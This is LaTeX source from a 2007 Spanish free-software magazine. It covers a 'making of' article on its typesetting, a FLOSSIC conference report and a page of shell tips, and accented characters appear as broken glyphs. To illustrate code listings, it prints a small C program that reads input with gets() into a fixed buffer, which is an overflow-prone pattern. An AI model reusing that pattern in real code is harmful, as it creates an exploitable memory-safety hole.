\item {\bf PsTricks/PdfTricks:} Este paquete es el que nos permite generar la
  cabecera de las p�ginas y posicionar im�genes por debajo del texto
  libremente.
\end{itemize}

Si le ech�is un ojo a las fuentes de la revista ver�is que se incluyen
muchos otros paquetes. Algunos son habituales y otros los necesitan
los que acabamos de comentar. No vamos a entrar en ese nivel de
detalle, pero si ten�is inter�s, no hay m�s que decirlo y se podr�a
escribir algo.

Para explicar los detalles vamos a intentar seguir el orden en el que
aparecen las cosas que merecen ser mencionadas dentro de la revista. Por comodidad
hemos definido algunos entornos y comandos \LaTeX \hspace{1pt} que pod�is encontrar
en el fichero {\tt portada.tex}. Los iremos comentando seg�n los vayamos necesitando.

\sectiontext{white}{black}{LA EDITORIAL}

Como coment�bamos m�s arriba, la p�gina de la editorial es especial. Est�
compuesta de dos columnas irregulares. La primera contiene informaci�n
sobre el n�mero actual, se encuentra a la izquierda y es bastante m�s
estrecha. La segunda columna ocupa la mayor parte de la p�gina y
contiene el texto de la editorial.

Adem�s de estas dos columnas tenemos una cabecera compuesta por una
imagen y un texto que contiene entre otras cosas el t�tulo de la
editorial. Comencemos por esta cabecera:

\begin{mexample}
{\small
\begin{verbatim}
\begin{flushright}
\parbox[top]{0.9\linewidth}{\flushright
{\resizebox{!}{1cm}{\textsc{Editorial}}}

\vspace{2mm}

{\Huge Aqu� Estamos}

by The Occam Team
}
\end{verbatim}
}
\end{mexample}


\ebOpage{introcolor}{0.25}{MAKING OF}


La secuencia de comandos de arriba no tiene mucho misterio. Los textos
se justifican a la derecha y se agrupan en un {\tt parbox}. Con esto
evitamos que el texto de la cabecera se extienda hasta ocupar toda la
p�gina.

Para terminar la cabecera nos falta a�adir la imagen.

\begin{entradilla}
{\em ``El uso de {\color{introcolor}{pstricks nos permite posicionar im�genes
  arbitrariamente}} en la p�gina''}
\end{entradilla}


Todas las im�genes de esta p�gina se a�aden utilizando {\em pstricks}, para
poder posicionarlas donde nosotros queramos. Aqu� est�n las l�neas de inter�s:

\begin{mexample}
{\small
\begin{verbatim}
\rput(-10.5,7.0){\resizebox{!}{3cm}\
     {{\epsfbox{Typewritter.eps}}}}
\rput(-17.0,-5){\resizebox{7cm}{35.0cm}\
     {{\epsfbox{bar.eps}}}}
\rput(-16.3,3.5){\resizebox{!}{4.8cm}\
     {{\epsfbox{portada-3-thumb.eps}}}}
\rput(-16.3,-17.5){\resizebox{!}{0.9cm}\
     {{\epsfbox{licencia.eps}}}}
\end{verbatim}
}
\end{mexample}

La primera de las im�genes es la de nuestra cabecera. Luego pintamos
una barra con un ligero gradiente verde, a continuaci�n la imagen de
la portada y finalmente el logo de creative commons que aparece al
final de la columna de la izquierda.


Como veremos m�s adelante, todos los art�culos utilizan este m�todo
para incluir la imagen que acompa�a a la cabecera del mismo.

Para terminar con esto, observad que hemos utilizado el comando
{\tt rputs}. Para entender como funciona este comando y los que siguen
a continuaci�n es necesario comprender que existe una especie de
``lapiz virtual'' que indica la posici�n actual en la p�gina despu�s
de cada comando que a�adimos.

El comando {\tt rputs} nos permite precisamente mover ese ``l�piz'',
pero de forma relativa a su posici�n actual. En el caso concreto de la
p�gina editorial, tras escribir el texto de cabecera, el ``l�piz'' se
encuentra algo por debajo de ese texto. Esto es debido a que \LaTeX \hspace{1pt}
intenta rellenar la p�gina con los elementos disponibles (record�is el
{\tt parbox} de m�s arriba?).

La experiencia nos ha ense�ado y en este segundo n�mero las im�genes
de la editorial se han incluido de una forma m�s adecuada.

\sectiontext{white}{black}{COLUMNAS LIBRES}

Como dec�amos, la p�gina editorial est� compuesta de dos columnas
posicionadas de forma libre gracias al paquete {\em TextPos}. Veamos como lo
hacemos:

\begin{mexample}
{\small
\begin{verbatim}
\begin{textblock}{30}(-1.5,-15)
Primera columna
\end{textblock}

\begin{textblock}{20}(3.5,-13)
La segunda Columna
\end{textblock}
\end{verbatim}
}
\end{mexample}

Este fragmento de c�digo crea una columna con el ancho determinado por
el primer valor n�merico, en la posici�n que se especifica a
continuaci�n. Pod�is ver como una columna est� junto a la otra, pero
la segunda empieza un poco m�s abajo debido a que la cabecera est�
fuera de la columna.

Como pod�is comprobar en las fuentes del n�mero 1, las columnas est�n
compuestas de una forma peculiar. No hay ninguna raz�n para ello,
simplemente pagamos la novatada :P. El primer par�metro de {\tt texblock}
es el que realmente controla el ancho de la columna, sin embargo, este
tama�o se vuelve a ajustar utilizando un entorno {\tt minipage} que
realmente es redundante.

Comparad la p�gina de la editorial del n�mero 1 con la de este n�mero
2 para comprobar las diferencias.


\sectiontext{white}{black}{LOS ART�CULOS}

El resto de la revista est� compuesta por art�culos, los cuales tienen
todos la misma forma: Una cabecera, seguida del cuerpo del art�culo
separado en p�ginas.

Una cabecera t�pica ser�a la siguiente:

\begin{mexample}
{\small
\begin{verbatim}
% Incluye imagen del art�culo
\rput(1,-3.0){\epsfbox{navaja.eps}}

% ----------------------------------------------
% Cabecera
\begin{flushright}
\msection{introcolor}{black}{0.18}{MALAS BESTIAS}

\mtitle{8cm}{NetCat: La navaja suiza de la Red}

\msubtitle{12cm}{Usos curiosos de esta herramienta}

{\sf por Er Manitas}

{\psset{linecolor=black,linestyle=dotted}\psline(-12,0)}
\end{flushright}

\vspace{2mm}
% -------------------------------------------------
\end{verbatim}
}
\end{mexample}

Como pod�is ver, lo primero que hacemos es poner la imagen que
acompa�a a la cabecera. Es importante que sea lo primero que se hace,
puesto que la p�gina se ``dibuja'' en el orden en el que aparece en
fichero fuente. As�, si ponemos nuestra imagen como primer elemento de
la p�gina, cualquier texto o imagen que se dibuje posteriormente se
sobreimpondr� a esta primera.


Los art�culos que contienen m�s de una imagen en su primera p�gina,
tendr�n, obviamente, varias l�neas de este tipo.


\ebOpage{introcolor}{0.25}{MAKING OF}

Tras la imagen, y justificado a la derecha, encontramos la cabecera
propiamente dicha, compuesta por el nombre de la secci�n (que aparece
en la parte superior derecha de la p�gina), un t�tulo, un subt�tulo,
el nombre del autor y una l�nea de puntos que la separa del resto del
art�culo.

\sectiontext{white}{black}{COMANDOS DE CABECERA}

La l�nea de puntos superior la dibuja el comando {\tt msection}, el cual
incluimos a continuaci�n:

\begin{mexample}
{\small
\begin{verbatim}
\newcommand{\msection}[4]{
{\begin{flushright}{
{\psset{linecolor=black,linestyle=dotted}
\psline(-17,0)}
\colorbox{#1}{
\begin{minipage}{#3\linewidth}
\center
  \textcolor{#2}{
    \textsf{\textbf{#4}}}
\end{minipage}
}}\end{flushright}}

\vspace{4mm}
}
\end{verbatim}
}
\end{mexample}

La primera l�nea declara el comando de la forma habitual, nombre
y n�mero de par�metros (4 en este caso): color de fondo, color del texto, ancho del
cuadro y texto.


Tras iniciar un contexto {\tt flushright} para justificar a la derecha, nos
encontramos un nuevo comando {\tt pstricks}, el cual se responsable de
dibujar la l�nea de puntos superior. Observad una vez m�s como el orden de
los comandos es importante. Primero dibujamos la l�nea y luego, por
encima, el cuadro que contiene el nombre de la secci�n..

El texto de la secci�n se incluye, en primer lugar en una {\tt colorbox},
para poder cambiar el color de fondo, y posteriormente en un contexto
minipage, para permitir el control del tama�o de la caja y el manejo
de textos largos.

\begin{entradilla}
{\em ``Se han definido varios comandos para {\color{introcolor}facilitar la creaci�n de cabeceras}''}
\end{entradilla}


Los comandos mtitle y msubtitle, simplemente nos permiten cambiar el
tama�o y color del t�tulo y el subt�tulo respectivamente.

\sectiontext{white}{black}{COMPONIENDO EL ART�CULO}

Preparar el cuerpo del art�culo es lo que resulta m�s pesado, puesto
que es necesario partirlo en p�ginas de forma manual por dos razones fundamentales:

\begin{itemize}
\item la primera es que queremos insertar el t�tulo de la secci�n en cada
  p�gina.
\item La segunda es para tener control sobre el lugar en el que aparecen
  las figuras que se posicionan de forma especial (con {\tt pstricks}).
\end{itemize}

Si alguien conoce una forma mejor de hacerlo, estar�amos muy
interesados en conocerla :).

\begin{entradilla}
{\em ``El proceso de composici�n del art�culo es manual. {\color{introcolor}Alguna idea?}''}
\end{entradilla}

El cuerpo principal de cada p�gina de un art�culo se incluye en un
contexto {\tt multicols}, especificando que queremos utilizar dos
columnas. Por cada p�gina es necesario terminar el contexto, insertar
el texto de la secci�n en la parte superior de la p�gina e iniciar un
nuevo contexto {\tt multicols}.

Para hacer esto un poco m�s llevadero hemos incluido algunos comandos
que nos hacen la vida m�s f�cil.

\begin{itemize}
\item Si la siguiente p�gina del art�culo no contiene ninguna figura
  especial, usaremos el comando: {\tt ebOpage\{color, tama�o, seccion\}}

  Este comando termina el contexto {\tt multicols}, inserta la cabecera de
  secci�n e inicia el nuevo contexto {\tt multicols}.

\item Si tenemos que insertar im�genes en la siguiente p�gina del
  art�culo, utilizaremos los comandos {\tt eOpage} y {\tt bOpage \{color, tama�o,
  seccion\}}.

  S�, {\tt ebOpage} simplemente incluye estos dos comandos de forma
  consecutiva.
\end{itemize}

Dentro del contexto {\tt multicols} hay dos comandos de inter�s que usamos
de vez en cuando para hacer filigranas.

El primero es {\tt columnbreak}, que nos permite forzar que el texto que
sigue a continuaci�n pase a la siguiente columna. El segundo es
{\tt raggedcolumns}, que indica al entorno {\tt multicols} que no ajuste el tama�o
de las dos columnas para que sean iguales.

\sectiontext{white}{black}{ABSTRACTS}

Nos queda por comentar algunos de los elementos que aparecen en los
distintos art�culos, tales como los {\em abstracts} o introducciones, al
principio de cada uno de ellos y los listados y cuadros que ciertos
art�culos incluyen.

Los {\em abstracts} se incluyen dentro de una {\tt colorbox} que, a su
vez, incluye un entorno {\tt minipage} en el que el primer car�cter se re-escala
utilizando un comando {\tt resizebox}. Es necesario incluir el texto
en un entorno {\tt minipage} para poder ajustar la caja de color a la
columna.

Si comprob�is las fuentes, ver�is
que la mayor�a de estas introducciones incluyen todos estos comandos
al principio de cada art�culo. 

En el fichero {\tt portada.tex} se incluye un comando para generar estas
introducciones en un solo paso. Ve�moslo:

\ebOpage{introcolor}{0.25}{MAKING OF}

\begin{mexample}
{\small
\begin{verbatim}
% Crea el cuadro de introducci�n al principio 
% de cada art�culo
\newcommand{\intro}[3]{
\colorbox{#1}{
  \begin{minipage}{.9\linewidth}
    \vspace{2mm}
    {{\resizebox{!}{1.0cm}{#2}}{#3}}
  \vspace{1mm}
  \end{minipage}
}
\vspace{4mm}
}
\end{verbatim}
}
\end{mexample}

Como se puede observar en este fragmento de c�digo, el comando espera
recibir tres par�metros. El primero es el color de fondo que se pasa a
{\tt colorbox} como \#1. El segundo par�metro es el primer car�cter de la
introducci�n, el cual, aparece con un tama�o mayor. Finalmente, como
tercer par�metro pasaremos el resto del texto de la introducci�n.

Pod�is ver como utilizar este comando, por ejemplo, en el fichero
{\tt distros.tex} en las fuentes del n�mero 1 de nuestra revista o en
cualquiera de los art�culos del n�mero 2.

\begin{mexample}
{\small
\begin{verbatim}
\intro{introcolor}{Q}{u� te parecer�a  ...}
\end{verbatim}
}
\end{mexample}


\sectiontext{white}{black}{LISTADOS}

Varios art�culos incluyen c�digo fuente en alg�n lenguaje de
programaci�n. En general, este c�digo lo podemos
introducir dentro de un entorno {\tt verbatim} que conserve el indentado y
los caracteres especiales que suelen aparecer en los programas.



Sin embargo, siempre que sea posible, utilizamos el paquete {\em listing},
que nos proporciona un entorno {\tt lstlisting} para hacer un
{\em ``pretty-printing''} de un fragmento de c�digo. 

\begin{entradilla}
{\em ``{\color{introcolor}El paquete listing} nos permite formatear
  c�digo fuente.''}
\end{entradilla}

El paquete {\em listings} ofrece un �mplio abanico de posibilidades y, sobre
todo, es capaz de manejar un gran n�mero de lenguajes de
programaci�n. Ve�mos un par de ejemplos extra�dos del fichero
{\tt murapido.tex}.

\begin{mexample}
{\small
\begin{verbatim}
\lstset{language=C,frame=tb,framesep=5pt,
        basicstyle=\small}   
\begin{lstlisting}
#include <stdio.h>

int main() {
  char buffer[1024];
  gets (buffer);
  printf ("%s", buffer);
}
\end{lstlisting}
\end{verbatim}
}
\end{mexample}

Como pod�is observar, el c�digo simplemente se introduce en un entorno
{\tt lstlistings} sin m�s. Es el comando {\tt lstset} el que nos permite
configurar como se visualizar� nuestro programa en el documento final.

En este ejemplo, el comando {\tt lstset}, configura el entorno para:

\begin{itemize}
\item Utilizar el lenguaje C.
\item Dibujar las l�neas de arriba ([t]op) y de abajo ([b]ottom) del cuadro.
\item Introducir una separaci�n de 5 puntos entre el cuadro y el texto.
\item Utilizar el tama�o de fuente {\tt small} para el texto dentro del entorno.
\end{itemize}

\begin{entradilla}
{\em ``Tanto la portada como el sumario son im�genes
  {\color{introcolor}generadas con GIMP }''}
\end{entradilla}

Este paquete dispone de una documentaci�n bastante buena en la que se
describen todas las opciones que proporciona. Una de las m�s
interesantes es la flexibilidad que proporciona para la numeraci�n de
l�neas. Eso ya lo dejamos para que los m�s curiosos se entretengan.

\sectiontext{white}{black}{PORTADA Y SUMARIO}

Los �ltimos elementos que nos quedan por comentar son la portada y el
sumario de la revista. En general, estos dos elementos deben resultar
atractivos a la vista y su composici�n utilizando \LaTeX, aunque
posible, requiere demasiado trabajo.

Por esa raz�n, ambos elementos se generan como im�genes creadas con la
herramienta {\em The GIMP} que es una aut�ntica maravilla.

\sectiontext{white}{black}{ZONA GEEK}

S�, hasta para el proceso de la generaci�n del pdf final de la revista
podemos ser un poco ``raritos''. Lo primero que pod�is observar es que
tanto el pdf como el postscript finales de la revista se generan con
la herramienta {\tt make}... la misma que utilizamos para compilar
nuestros programas.

Lo segundo es que, la fe de erratas o incluso, la traducci�n de la
revista a otros idiomas se pueden distribuir como parches :). S�
parches como los que aplicamos al kernel o a cualquier paquete de
software... Mola!. 

Por cierto, que ya est� disponible, en nuestra web, el parche con la F� de Erratas del
n�mero 1 ;).

\sectiontext{white}{black}{ESTO ES TODO}

Bueno, m�s o menos esto es todo lo que hay que saber para modificar
``Occam's Razor'' o para crear tu propia publicaci�n LaTeX. Como habr�is
comprobado el proceso es bastante sencillo, pero un poco tedioso y
tiene sus cosas buenas y sus cosas no tan buenas.

Finalmente, nos gustar�a saber de cualquier proyecto que llev�is a
cabo utilizando lo que aqu� hemos contado. Ya sab�is, ``Uno se alegra
de ser �til'' ;)


\end{multicols}

\clearpage
\pagebreak

% Este fichero es parte del N�mero 2 de la Revista Occam's Razor
% Revista Occam's Razor N�mero 2
%
% (c) 2007, Occam's Razor.
% Contenido disponible bajo licencia Reconocimiento-No comercial-Compartir bajo la misma licencia 2.5 Espa�a de Creative Commons. Para ver una copia de esta licencia, visite http://creativecommons.org/licenses/by-nc-sa/2.5/es/ o envie una carta a Creative Commons, 559 Nathan Abbott Way, Stanford, California 94305, USA.
% 

\rput(1.5,-2){\resizebox{!}{2.5cm}{{\epsfbox{images/flossic.eps}}}}
\rput(8,-23){\resizebox{!}{8cm}{{\epsfbox{images/captura-flossic-1.eps}}}}

\begin{flushright}
\msection{introcolor}{black}{0.2}{EVENTOS}

\mtitle{8cm}{FLOSSIC. FLOSS International Conference}

\msubtitle{10cm}{Congreso Cient�fico Internacional de Software Libre en la UCA}

{\sf por Organizaci�n FLOSSIC}

{\psset{linecolor=black,linestyle=dotted}\psline(-10,0)}

\end{flushright}

\vspace{4mm}

\begin{multicols}{2}

% Introducci�n
\colorbox{introcolor}{

\begin{minipage}{.95\linewidth}
{{\resizebox{!}{1.0cm}{O}}{ccam's Razor ha participado como medio de
    comunicaci�n colaborador en el FLOSSIC de este a�o. Aqu� ten�is un
    peque�o resumen sobre como fue todo. Una iniciativa estupenda que
    auna la promoci�n de la ciencia y el mundo del software libre.
}}

\end{minipage}
}

\vspace{4mm}

\sf

Durante los pasados d�as 7, 8 y 9 de marzo se celebr� en la Facultad de Ciencias Sociales y de la Comunicaci�n del Campus de Jerez el primer Congreso Cient�fico de Software Libre (FLOSSIC 2007 http://softwarelibre.uca.es/fic), organizado por la Oficina de Software Libre de la Universidad de C�diz y el grupo de investigaci�n Mejora del Proceso Software y M�todos Formales y el Departamento de Lenguajes y Sistemas Inform�ticos con la colaboraci�n de la Escuela de Negocios de Jerez. Este congreso ha nacido con la vocaci�n de promover la difusi�n de los avances cient�ficos referentes al uso del software libre, y se organizar� anualmente en distintas universidades. 

El objetivo de este congreso es ser un marco de encuentro para las principales iniciativas relacionadas con los FLOSS, incidiendo especialmente en aquellas relacionadas con la Universidad: educaci�n, tecnolog�a e investigaci�n.

El congreso fue un �xito de asistencia, con m�s de 30 ponentes de varios pa�ses y m�s de 100 asistentes, incluyendo gran cantidad de alumnos de estudios t�cnicos de inform�tica, que asistieron a comunicaciones de temas tan diversos como el e-learning, accesibilidad, traducci�n autom�tica, desarrollo de software, modelado 3D profesional, supercomputaci�n o inteligencia artificial.

Entre las ponencias destac� "Impact of Free/Libre or Open Source Software (FLOSS) on the European ICT sector", presentada por R�diger Glott, de la Universidad UNU-Merit. En ella se presentaron las conclusiones de un informe realizado recientemente para la Uni�n Europea en el que se muestran las ventajas econ�micas y competitivas que aporta el uso y desarrollo de software libre en las empresas TIC de la Uni�n Europea, as� como los efectos negativos que provocar�a la adopci�n de patentes de software o formatos de almacenamiento de informaci�n cerrados.

Todas las ponencias quedaron reflejadas en el libro de actas del congreso, publicado (como no pod�a ser de otra forma) con una licencia libre que permite su copia y distribuci�n gratuita. Este libro se reparti� entre todos los asistentes dentro de un CD recopilatorio de documentaci�n libre que incluye m�s de 200 libros, manuales y cursos sobre sistemas libre y que se puede solicitar gratuitamente en la Oficina de Software Libre de la Universidad de C�diz o descargar desde http://flossic.loba.es

La organizaci�n del congreso quiso agradecer la ayuda prestada por sus patrocinadores ORO: Consejer�a de Innovaci�n, Ciencia y Empresa de la Junta de Andaluc�a, Sadiel y HP, los patrocinadores Activa Sistemas y Yaco Sistemas, y las entidades colaboradoras: Facultad de Ciencias Sociales y de la Comunicaci�n, Consejo Social y los Vicerrectorado de Alumnos, de Extensi�n Universitaria y de Investigaci�n, Desarrollo Tecnol�gico e Innovaci�n de la Universidad de C�diz as� como la empresa Loba Soluciones Inform�ticas y todos los miembros del comit� de organizaci�n.

\end{multicols}

\clearpage
\pagebreak

% Este fichero es parte del N�mero 2 de la Revista Occam's Razor
% Revista Occam's Razor N�mero 2
%
% (c) 2007, 2009, Occam's Razor.
%
% Esta obra est� bajo una licencia Reconocimiento 3.0 Espa�a de
% Creative Commons. Para ver una copia de esta licencia, visite
% http://creativecommons.org/licenses/by/3.0/es/ o envie una carta a
% Creative Commons, 171 Second Street, Suite 300, San Francisco,
% California 94105, USA. 

\rput(3,-2.5){\resizebox{!}{6cm}{{\epsfbox{images/varita3.eps}}}}
\begin{flushright}
\msection{red}{black}{0.1}{TRUCOS}

\mtitle{6cm}{Con un par... de l�neas}

\msubtitle{8cm}{Chuletillas para hacer cosas m� r�pido}

{\sf por Tamariz el de la Perd�z}

{\psset{linecolor=black,linestyle=dotted}\psline(-10,0)}

\end{flushright}

\vspace{4mm}

\begin{multicols}{2}
\raggedcolumns


\sectiontext{white}{black}{CAMBIARSE AL DIRECTORIO HOME}
\hrule
\vspace{2mm}

Aunque esto sea bastante tonto, parece que hay mucha gente que no
conoce las distintos atajos para acceder a su directorio
\verb.HOME.. Aqu� van las m�s comunes:



\vspace{2mm}

\hrule
{\footnotesize
\begin{verbatim}
occam@razor # cd
occam@razor # cd $HOME
occam@razor # cd ~
\end{verbatim}
}%$
\hrule

\vspace{2mm}

De especial inter�s es la �ltima opci�n que nos permite cambiarnos de
forma r�pida al directorio \verb.HOME. de cualquier otro usuario del
sistema, simplemente a�adiendo el nombre de usuario. Y por supuesto
podemos acceder a cualquier subdirectorio bajo \verb.HOME..


\vspace{2mm}

\hrule
{\footnotesize
\begin{verbatim}
occam@razor # cd ~occams
occam@razor # cd ~pepe
occam@razor # cd ~/download
occam@razor # cd ~ocams/download
\end{verbatim}
}%$
\hrule

\vspace{2mm}



\sectiontext{white}{black}{COMPILANDO EN UN CORE DUO}
\hrule
\vspace{2mm}

La utilidad \verb.make. como la mayor�a de las disponibles en
cualquier sistema UNIX tienen un mont�n de opciones, en general, no
muy conocidas. A parte del infame -f, la opci�n -j nos permite iniciar
varios procesos para ejecutar de forma ``paralela'' las reglas del
\verb.Makefile..

Aqu� ten�is un peque�o ejemplo con sus tiempos de ejecuci�n en un
Intel Core Duo.

\vspace{2mm}
\hrule
{\footnotesize
\begin{verbatim}
occam@razor $ time make
real	0m45.182s
user	0m31.326s
sys	0m12.801s
occame@razor $  time make -j 2
real	0m27.043s
user	0m27.314s
sys	0m11.973s
occam@razor $ time make -j 3
real	0m26.148s
user	0m27.770s
sys	0m11.769s
occam@razor $ time make -j 4
real	0m27.642s
user	0m28.298s
sys	0m11.689s
\end{verbatim}		   
}
\hrule
\vspace{2mm}

Como pod�is observar, al lanzar dos procesos en paralelo se observa
una sustancial mejora, pero que no mejora al aumentar el n�mero de procesos.


\sectiontext{white}{black}{IMPRIMIENDO DOS P�GINA EN UNO}
\hrule
\vspace{2mm}

Si dispones de un c�modo entorno gr�fico para configurar la impresi�n,
esto no tiene mucho inter�s, pero en el caso de que solo dispongamos
de una l�nea de comandos... como podemos imprimir dos p�ginas en
una?. Pues usando alguno de estos comandos

\vspace{2mm}
\hrule
{\footnotesize
\begin{verbatim}
occam@razor $ a2ps -2 --medium=A4 doc1.ps 
occam@razor $ a2ps -2 --medium=A4 doc1.ps -o output.ps
occam@razor $ pdfnup -nup 2 doc1.pdf
occam@razor $ psnup -nup 2 doc1.ps
\end{verbatim}%$
}
\hrule
\vspace{2mm}

Como os pod�is imaginar los comandos \verb.pdfnup. y \verb.psnup. son
espec�ficos para manejar ficheros pdf y postscript. El comando
\verb.a2ps. es mucho m�s vers�til permitiendo manejar tambi�n ficheros
de texto.

Cada uno de ellos tiene un mont�n de opciones, as� que no os dej�is de
consultar las p�ginas del manual de cada uno de ellos.


\vspace{6mm}

\sectiontext{white}{black}{DESCARGANDO P�GINAS COMO FICHEROS DE TEXTO}
\hrule
\vspace{2mm}

En ocasiones resulta interesante poder descargar p�ginas web desde la
l�nea de comandos como texto plano. Esto permite, por ejemplo,
procesar el contenido de la p�gina con un script, para extraer la
informaci�n que nos interese de forma sencilla.

%A partir de un fichero de texto que contenga una columna de datos, podemos obtener r�pidamente una representaci�n gr�fica de los mismos utilizando la herramienta \texttt{gnuplot} utilizando los siguientes comandos:

\vspace{2mm}

\hrule
{\scriptsize
\begin{verbatim}
occams@razor $ lynx -dump \
> http://webs.uvigo.es/occams-razor > occams.txt

occams@razor $ elinks -dump -dump-width 150 \
> http://webs.uvigo.es/occams-razor > occams.txt

\end{verbatim}
}
\hrule
\vspace{2mm}
%$

Para los que no los conozc�is, \verb.lynx. y \verb.elinks. son dos
navegadores en modo texto. El segundo es especialmente interesante
puesto que soporta tablas y frames, con lo que permite visualizar de
forma correcta un mayor n�mero de sitios web.


\vspace{6mm}

\sectiontext{white}{black}{CONEXIONES ACTIVAS EN TU SISTEMA}
\hrule
\vspace{2mm}

Podemos conocer las conexiones activas en nuestro sistema en cualquier
momento, utilizando el comando netstat.

\vspace{2mm}

\hrule
{\scriptsize
\begin{verbatim}
occams@razor $ netstat -tuanp
\end{verbatim}
}
\hrule
\vspace{2mm}
%$



%% Call for tricks

\vspace{2mm}

\colorbox{introcolor}{
\begin{minipage}{.9\linewidth}{
\textbf{\textsf{Env�a tus trucos}}

\vspace{1mm}

\textsf{Puedes enviarnos esos trucos que usas a diario para compartirlos con el resto de lectores a la direcci�n: }

\vspace{2mm}

\texttt{occams-razor@uvigo.es}
}
\end{minipage}
}

\raggedcolumns
\pagebreak

\vspace{6cm}
\end{multicols}

\clearpage
\pagebreak


% Revista Occam's Razor N�mero 2
%
% (c) 2007, Occam's Razor.
% Contenido disponible bajo licencia Reconocimiento-No comercial-Compartir bajo la misma licencia 2.5 Espa�a de Creative Commons. Para ver una copia de esta licencia, visite http://creativecommons.org/licenses/by-nc-sa/2.5/es/ o envie una carta a Creative Commons, 559 Nathan Abbott Way, Stanford, California 94305, USA.
% 


\pagestyle{empty}
\rput(8,-14){\epsfbox{images/contraportada.eps}}

\pagebreak

\end{document}
